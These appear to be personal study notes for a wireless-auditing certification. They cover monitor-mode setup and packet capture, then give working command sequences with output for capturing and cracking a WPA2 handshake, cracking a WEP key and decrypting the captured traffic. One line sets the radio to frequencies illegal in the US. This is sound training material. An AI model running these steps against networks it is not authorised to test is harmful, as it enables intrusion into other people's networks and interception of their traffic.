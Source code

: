 # Notes for GAWN

## Wifi 

### 802.11 configuration   

#### Manual

Show devices   
- `iw phy`   
- `ls /sys/class/ieee80211/`

Show interfaces   
- `iw dev`   
- `iwconfig`   
- `ifconfig -a`

Create interface from phy device   
- `iw phy phy0 interface add wlan0 type managed`

Set device interface to monitor mode   
- `iw dev wlan0 interface add mon0 type monitor`    
- `iwconfig wlan0 mode monitor`   

Delete device interface   
- `iw dev mon0 del`

Get information on device interface   
- `iw dev mon0 info`

Set device interface to specific channel   
- `iw dev mon0 set channel 1`   
- `iw dev mon0 set channel 1 HT40+`

Set Regulatory Domain Settings(to use ranges outside legal in us)   
- `iw reg set CH`

#### Automatic

Set device interface to monitor mode   
- `airmon-ng start wlan0`

Set device interface channel   
- `airmon-ng start wlan0 11`

Kill confliting processes   
- `airmon-ng check kill`

### Capturing Data

#### TCPDUMP

Important flags   
- `-i `  Specify interface to capture on
- `-e`   Print MAC addresses and BSSID
- `-n`   Skip DNS lookups
- `-s`   Set capture snap length
- `-X`   Print payload in ascii and hex

#### Airodump-ng

Capture all channels while channel hoping   
`airodump-ng -w savefile wlan0mon`   

Capture on single channel   
`airodump-ng -w savefile -c 5 wlan0mon`   

#### Wireshark

Filters
- eq, ==
- ne, !=
- gt, >
- lt, <
- ge, >=
- le, <=
- contains
- and
- or
- not
- !wlan.fc.type_subtype == 8   "excludes beacon frames"
- !wlan.fc.protected == 1      "excludes encrypted networks"
- wlan.bssid == 00:11:22:33:44:55  "find exact bssid"
- frame contains ORA-  "finds string matching ORA- exactly useful for finding oracle traffic"

### Attacking 802.11 Protocols   
#### Cracking WPA/WPA2 

Scan all channels   
`airodump-ng wlan0mon`

```bash
CH  6 ][ Elapsed: 18 s ][ 2020-03-16 20:58

 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 14:59:C0:XX:XX:XX  -16        5        0    0   4  195  WPA2 CCMP   PSK  NETGEAR73
 16:59:C0:XX:XX:XX  -16        5        0    0   4  195  WPA2 CCMP   PSK  NETGEAR-Guest
```

Capture Handshake   
`airodump-ng -c 4 -d 16:59:C0:XX:XX:XX -w savefile wlan0mon`   

```bash
 CH  4 ][ Elapsed: 18 s ][ 2020-03-16 21:08 ][ WPA handshake: 16:59:C0:95:DB:06

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 16:59:C0:XX:XX:XX  -19  48       88        5    0   4  195  WPA2 CCMP   PSK  NETGEAR-Guest
```

Crack WPA2   
`aircrack-ng -w /usr/share/wordlists/rockyou.txt savefile.cap`   

```bash

                                 Aircrack-ng 1.2

      [00:00:00] 16/7120712 keys tested (1128.27 k/s)

      Time left: 1 hour, 45 minutes, 12 seconds                  0.00%

                           KEY FOUND! [ EASYPASSWD ]


      Master Key     : FD 3F 34 FD 32 6F 4D 16 DB 9B DA 5B B6 47 58 63
                       94 48 19 58 A5 42 E5 85 4F 3D CB BC 11 79 C9 74

      Transient Key  : 83 0F D3 B8 20 0C 22 AD 61 2D CD 1D 9E 40 05 AF
                       D6 EC CE 53 E7 0E D0 5D DA 23 46 BF 56 C0 0A 10
                       A3 47 7E 7B 32 9D 0D 61 62 1F D2 82 76 9F 55 29
                       F9 E1 E2 7C 59 85 4F C8 E5 4D F1 B9 8C 9D 00 A6

      EAPOL HMAC     : E7 2C 3E D2 EC F6 5E 1B E0 6C 68 B5 92 74 6C 0C
```

#### Cracking WEP

```bash
root@vipertooth:~# aircrack-ng wep.pcap                                                              
Opening wep.pcap                                                                                       
Read 92091 packets.                                                                                     
                                                                                                        
   #  BSSID              ESSID                     Encryption                                           
                                                                                                        
   1  6C:70:9F:DE:66:89  TH3PAD                    WPA (0 handshake)                                    
   2  88:1F:A1:32:A7:F9  Vulnerable Bank           WPA (0 handshake)                                    
   3  85:4D:68:07:4D:8F  wep                       WEP (98468 IVs)                                 
   4  00:1C:DF:B2:E6:47  jeff                      WPA (0 handshake)                                       
                                                                                                        
Index number of target network ? 3                                                                      
                                                                                                        
Opening wep.pcap                                                                                       
Attack will be restarted every 5000 captured ivs.                                                       
Starting PTW attack with 98468 ivs.                                                                     

                                             Aircrack-ng 1.2 


                             [00:00:02] Tested 1397591 keys (got 98468 IVs)

   KB    depth   byte(vote)
    0    0/  1   E2(109056) 2F(97536) A5(97536) 44(94464) 87(94464) D7(93952) 06(93696) 
    1    0/  1   28(113152) 33(98816) E2(97792) 3C(97280) 03(95232) 28(94208) E5(93952) 
    2    0/  1   9E(112640) 01(99072) FE(97024) 9B(96256) F1(94976) 72(94464) 73(93696) 
    3    0/  1   0F(111872) 1C(96000) 6A(95488) 4C(94720) 55(94208) FD(94208) BA(93952) 
    4    0/  1   19(109568) 79(97536) AF(96000) 5E(94976) 74(94208) E0(94208) D4(93952) 
    5    0/  1   4A(116992) 48(95232) EB(94720) 82(94464) D1(94208) DD(94208) B5(93952) 
    6    0/  1   B7(102400) EE(99584) 25(96000) 70(96000) DB(94464) C0(94208) 6C(93184) 
    7    0/  1   1A(108032) 72(98304) F8(97280) 31(96256) 8F(95232) D4(94976) 12(94208) 
    8    1/  8   30(93696) D4(93184) 84(92928) FB(92672) 02(92416) 13(92416) 1F(92416) 
    9    0/  1   33(115712) 9C(97024) B1(96256) 24(94720) 0B(94464) 08(93952) 4E(93184) 
   10    1/  1   7C(93440) A9(93440) 13(93184) 69(92672) BE(92672) E3(92416) E0(91904) 
   11    1/  1   8F(95232) 65(94208) 41(93696) 9A(93696) D1(92672) 2C(92160) 6C(91904) 
   12    0/  1   54(100564) 47(96416) 83(95224) A9(94572) 12(94504) 0D(93584) AA(93072) 

             KEY FOUND! [ E2:28:9E:0F:19:4A:B7:1A:9F:33:53:55:54 ] 
        Decrypted correctly: 100%
```

#### Decrypting Captured Traffic

```bash
root@vipertooth:~# airdecap-ng -w E2:28:9E:0F:19:4A:B7:1A:9F:33:53:55:54 wep.pcap
Total number of packets read         92091
Total number of WEP data packets     85824
Total number of WPA data packets         3
Number of plaintext data packets        14
Number of decrypted WEP  packets     83972
Number of corrupted WEP  packets         0
Number of decrypted WPA  packets         0
```
